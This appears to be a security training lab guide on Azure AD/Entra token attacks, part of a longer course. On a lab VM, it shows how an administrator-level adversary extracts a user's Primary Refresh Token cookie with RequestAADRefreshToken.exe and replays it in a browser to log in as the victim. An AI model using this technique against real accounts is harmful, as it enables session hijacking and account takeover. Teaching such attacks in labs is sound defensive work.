

# Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@boazwassergmail.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```


#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 
#
## 1. Get PRT Cookie using RequestAADRefreshToken.exe
1. Run RequestAADRefreshToken.exe
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"

DONE
```
2. Clear your browser cookies and go to https://login.microsoftonline.com/login.srf
3. F12 (Chrome dev tools) -> Application -> Cookies
4. Delete all cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
5. Refresh the page (or visit https://login.microsoftonline.com/login.srf again) and you'll be logged it

Reference: https://github.com/leechristensen/RequestAADRefreshToken, https://posts.specterops.io/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso-2b0409caad30